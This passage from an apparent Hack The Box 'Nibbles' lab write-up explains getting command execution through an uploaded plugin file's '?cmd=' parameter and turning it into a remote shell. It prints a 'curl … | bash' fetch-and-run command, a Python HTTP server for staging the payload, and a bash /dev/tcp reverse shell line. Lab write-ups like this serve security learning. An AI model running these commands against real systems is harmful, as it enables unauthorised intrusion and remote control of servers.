 Now, we need to find on the directories we found doing fuzzing and try to search something called "my_image" and we get it on **/nibbleblog/content/private/plugins/my_image**.
<br><br>
If we click on our file and we add at the end of the PHP file that `?cmd=`(http://10.10.10.75/nibbleblog/content/private/plugins/my_image/), we will get a cmd where we can add commands. In my case I am going to do a reverse shell to make everything more comfortable.
<br><br>

![](/assets/images/htb-writeup-nibbles/reverse.png)
In this reverse shell I used 3 windows where in each I used different tools:
1. **RCE payload**:
	- I execute the following RCE payload in the web application:
	```
	curl {IP} | bash
	```
	- This command uses `curl` to fetch data from the IP address `{LHOST}` and pipes it to the `bash` command for execution.

2. **HTTP Server with Payload**:
	- In another terminal, I has set up a HTTP server using Python3 to serve a payload file. The command used is:
	```
	python3 -m http.server 80
	```
	- The payload file, let's say `payload.sh`, contains the following code:
	```
   	bash -c 'bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1'
	```
	- This payload establishes a reverse shell to my machine with IP address `{LHOST}` on port `{LPORT}`. It uses `bash`to redirect standard input, output, and error to the specified TCP connection.

3. **Execution of Payload**
	- THe vulnerable web server downloads the `payload.sh` file from my machine's HTTP server using the `curl` command executed in the RCE payload.

4. **Reverse Shell Connection**:
	- Once the `payload.sh` is downloaded, it is executed on the server.
	- The `bash`command in the payload establishes a reverse shell to my machine at IP `{LHOST}` on port `{LPORT}`, allowing me to intereact with the server's shell remotely.
